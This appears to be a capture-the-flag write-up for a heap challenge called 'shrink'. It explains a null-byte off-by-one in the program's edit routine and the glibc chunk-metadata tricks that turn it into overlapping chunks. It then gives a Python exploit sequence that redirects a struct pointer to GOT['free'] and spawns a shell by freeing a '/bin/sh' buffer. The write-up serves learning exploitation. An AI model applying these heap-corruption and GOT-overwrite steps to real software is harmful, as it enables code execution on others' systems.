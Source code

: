 # shrink

### Basic function

Basically gives a menu offering functions like create, edit, delete "boot".

create use fgets, no overflow there, while edit is improperly using read, one null byte is able to overflow.

* Two global variables, 

  * boot\_index records how many boots exist  
  * boots are a array storing pointers to `boot` struct.

```c
struct boot{
    char* buffer;
    unsigned int length;
}
```

both struct boot and buffer stores in heap, every entry is 20 bytes which contains 0x10 bytes data and 0x10 bytes metadata.

When length is the length user gave when creating boot. `edit` cannot change length, and use length as parameter for `fets` and `read`

### Background of off-by-one

When `read(0, buf, 20)` , it reads 20 bytes data from standard input, then adds a '\0' to the end of data. So it overflow one null byte than expected. 

There's a lot of amazing ideas of how to exploit this null byte. This exploit only use a common one.

A and C should be 0x108 bytes here. 

![](../.gitbook/assets/image%20%286%29.png)

After B is freed, the chunk normally goes to unsorted bin\(if no tcache\), and the chunk itself has data like

```text
| A's last 8 bytes | 0x211 |
| 0x7fd1a3e3bb37| 0x7fd1a3e3bb78|
| BBBBBBBB....|
.....
```

the first 8 bytes is A's data. the second 8 bytes is B's chunks size plus 3 **bits** flag\(0 0 1\), only prev\_in\_use flag. 

* why ask for 0x208 bytes B? not 0x200 nor 0x210?

        because allocator will give 0x210 bytes chunk, first 0x10 bytes are unusable metadata, so 0x200 bytes usable data in chunk B, and 0x8 bytes in chunk C's prev\_size field.

        If 0x200 bytes, it still gives 0x210 bytes chunk for aligning, but cannot use prev\_size of C. C's prev\_size will be 0 if not used.

        if 0x210 bytes, it allocates 0x220 bytes data, buffer will not use prev\_size of C, either. 

When freeing B, C's `prev_size` will be updated to 0x210.

After A's data overflow B's metadata, chunk B's `size` filed will be overwritten to `0x200` , 

when allocating B1, allocator needs to update metadata `prev_size` in C. allocator navigates among chunks by shifting pointers **only** by using information of`prev_size` and `size` .  

1. Allocator gets the pointer to chunk B\( by examine unsorted bin\)
2. size = pointer\_B + 0x8
3. pointer\_C = pointer\_B + size
4. \*\(pointer\_C+8\) -= sizeof\(B1\)

> Before step 4, glibc after 2.23\(roughly\) checks whether \*\(pointer\_C+8\) == size, or it throws "size vs prev\_size" error. And later glibc have one additional check if \(B-&gt;fd-&gt;bk == B and B-&gt; bk -&gt; fd ==B\) or throws "double linked\_list" error.

The quote explains why I need to have "0x200" in chunk B when first time create it. Pay attention that the place I put "0x200" is not at the correct C's prev\_size field. Instead, it should be the "wrong" place that pointer\_B + 0x200

Above is a very rough description of what allocator does. Because there's wrong `size` in chunk B, the allocator turns out gets a wrong pointer\_C. So it wrote 0x200-sizeof\(B1\) to pointer\_B+0x200 instead of the correct place pointer\_B+0x210\(real chunk C's prev\_size\)

So, C's prev\_size remains unchanged. When C is being freed later, the allocator checks C's prev\_in\_use, find it's 0, so will try to merge C to `pointer_C-0x210`  . In this way, the B2 chunk becomes the "ghost" in this big chunk. 

Next, we could ask for a big chunk which uses this big vacuum. B2 is still in it.

### Exploit

In order to exploit off by one, we need three physically consecutive buffers. However buffers of  three consecutive boots will be split by their struct boot. 

To overcome that, before the real exploit, request three boots with 0x10 bytes data. Then free them all. That allows us to have six 0x20 bytes chunks in fastbin. All boot information chunks will use those chunks in fastbin, so their buffers get to be consecutive.  



```text
create(16, 'A'*20)
create(16, 'A'*20)
create(16, 'A'*20)


delete(0)
delete(0)
delete(0)


create(0x108, 'A')
print "first 110 created"
create(0x208, 'B'*0x1f0+p64(0x208)+p64(0x200)+p64(0x200))
print "second 210 created"
create(0x108, 'C')
print "third 110 created"
# A B C

delete(1)
# A C
edit(0, 'A'*0x108)
create(0x100, 'D'*0x100)
create(0x80, 'E'*0x80)
# 0A 2D 3E 1C
create(0x10,'F'*0x20)
create(0x10,'P'*0x20)
gg()
delete(2) #delete D
delete(1) #delete C

create(0x200, 'O'*0x1a0)
```

after line 23, the remainder chunk in unsorted bin has 0x60 bytes. I want to store a boot struct into that place, because chunk in this area will be overwritten by 'O'. In this way, I can overwrite the address of content to GOT\['free'\]

before I can malloc chunks in that area, there were still two 0x20 fastbin chunks at the beginning of arena. So I use 25, which actually malloc two chunks, one for boot struct and the one for content. 

> why line 22 and line 23 got 0x110 and 0x90 bytes.

boots table after line 26:

![](../.gitbook/assets/image%20%285%29.png)

they are: A, D\(B1\), E\(B2\), C, F, P

After D was deleted, P jumps to its place\(just index\) according to `edit_boot`

![](../.gitbook/assets/image%20%289%29.png)

0x603380 is the chunk P's boot struct



-------



* How to exploit the ghost chunk to get shell?

if allocate a `boot` struct in heap, we change the `buffer` pointer, so when editing this boot, we could write to **arbitrary** place. So overwrite a GOT is a good choice. 

We'd better write a GOT function that invoked with parameter could be easily controlled by us. free becomes a good choice. because when delete a boot. it will `free(buffer)` . 

We stores `/bin/sh` to that buffer, invoke free, got shell.

